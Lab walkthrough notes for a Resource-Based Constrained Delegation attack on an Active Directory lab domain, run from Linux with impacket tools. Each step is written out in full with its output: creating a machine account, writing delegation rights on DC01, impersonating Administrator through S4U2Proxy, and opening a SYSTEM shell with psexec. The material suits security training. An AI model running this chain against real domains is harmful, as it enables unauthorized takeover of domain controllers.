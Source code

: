 # RBCD from Linux

## Linux

- First, we need to create a computer account, which is possible because **ms-DS-MachineAccountQuota** is set to 10 by default for authenticated users. The [addcomputer.py](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) script from impacket can be used for this.


- Authenticate to 10.129.208.188 with 

- user "carole.holmes"

- password "Y3t4n0th3rP4ssw0rd" 

## Creating a New Computer

	> impacket-addcomputer -computer-name 'Jesta$' -computer-pass Griffin1 -dc-ip 10.129.208.188 inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd

	> impacket-addcomputer -computer-name 'Jesta$' -computer-pass Griffin1 -dc-ip 10.129.208.188 inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Successfully added machine account Jesta$ with password Griffin1. 
	
- **Note:** We can use BloodHound.py to enumerate the domain, searching for privileges to abuse for RBCD from Linux. 

- Then, we need to add this account to the targeted computer's trust list, which is possible because **carole.holmes has GenericAll ACL** on this computer. We can use the [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) Python script to do so. 

### Use the rbcd Python Script 
	
	> python3 rbcd.py -dc-ip 10.129.208.188 -t DC01 -f Jesta inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Starting Resource Based Constrained Delegation Attack against DC01$
	[*] Initializing LDAP connection to 10.129.208.188
	[*] Using inlanefreight\carole.holmes account with password ***
	[*] LDAP bind OK
	[*] Initializing domainDumper()
	[*] Initializing LDAPAttack()
	[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `Jesta` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `DC01`
	[*] Delegation rights modified succesfully!
	[*] Jesta$ can now impersonate users on DC01$ via S4U2Proxy
	
- We can ask for a TGT for the created computer account, followed by a **S4U2Self** request to get a forwardable TGS ticket, and then a **S4U2Proxy** request to get a valid TGS ticket for a specific SPN on the targeted computer.

	> getST.py -spn cifs/DC01.inlanefreight.local -impersonate Administrator -dc-ip 10.129.208.188 inlanefreigh
	t.local/Jesta:Griffin1
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[-] CCache file is not found. Skipping...
	[*] Getting TGT for user
	[*] Impersonating Administrator
	[*] Requesting S4U2self
	[*] Requesting S4U2Proxy
	[*] Saving ticket in Administrator@cifs_DC01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache
	
	
- We then will use this TGS ticket by exporting the ticket's path to the KRB5CCNAME environment variable.


## Add the Ticket to KRB5CCNAME 

	> export KRB5CCNAME=Administrator@cifs_DC01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache
	
- Then you can use any impacket tool with this ticket, such as psexec.py, to get a remote shell as SYSTEM.


## Connect as Administrator 

		> psexec.py -k -no-pass dc01.inlanefreight.local                                                        
		Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

		[*] Requesting shares on dc01.inlanefreight.local.....
		[*] Found writable share ADMIN$
		[*] Uploading file JrbGvlWA.exe
		[*] Opening SVCManager on dc01.inlanefreight.local.....
		[*] Creating service vuku on dc01.inlanefreight.local.....
		[*] Starting service vuku.....
		[!] Press help for extra shell commands
		Microsoft Windows [Version 10.0.17763.2628]
		(c) 2018 Microsoft Corporation. All rights reserved.

		C:\Windows\system32> whoami
		nt authority\system

		C:\Windows\system32>
		

